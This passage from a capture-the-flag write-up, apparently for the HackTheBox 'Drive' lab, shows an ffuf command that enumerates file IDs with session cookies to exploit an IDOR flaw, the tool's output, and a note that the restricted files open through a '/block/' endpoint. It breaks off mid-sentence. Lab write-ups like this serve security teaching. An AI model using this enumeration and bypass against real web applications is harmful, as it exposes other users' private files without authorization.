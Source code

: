 Let's try some enum for the idor

```bash
┌──(youssif㉿youssif)-[~]
└─$ ffuf -u http://drive.htb/FUZZ/getFileDetail/ -w <(seq 1 2000) -fc 500  -H "Cookie: csrftoken=wltcvo5fkh1kgl0kgyrMIS64hV0sjQ1d; sessionid=teshdlvcaeur5ogjpgkr2557tjahr041"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://drive.htb/FUZZ/getFileDetail/
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Header           : Cookie: csrftoken=wltcvo5fkh1kgl0kgyrMIS64hV0sjQ1d; sessionid=teshdlvcaeur5ogjpgkr2557tjahr041
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

[Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 315ms]
    * FUZZ: 79

[Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 261ms]
    * FUZZ: 98

[Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 279ms]
    * FUZZ: 99

[Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 266ms]
    * FUZZ: 101

[Status: 200, Size: 5081, Words: 1147, Lines: 172, Duration: 267ms]
    * FUZZ: 100

[Status: 200, Size: 5054, Words: 1059, Lines: 167, Duration: 276ms]
    * FUZZ: 112

:: Progress: [2000/2000] :: Job [1/1] :: 65 req/sec :: Duration: [0:00:26] :: Errors: 0 ::
```

We got the interesting ids, We can access 100,112 in `getFileDetail` endpoint but when we try to access the others we get 401 status code in response
After some trails i found that we can access them through `block` endpoint like this `http://drive.htb/79/block/` and i found this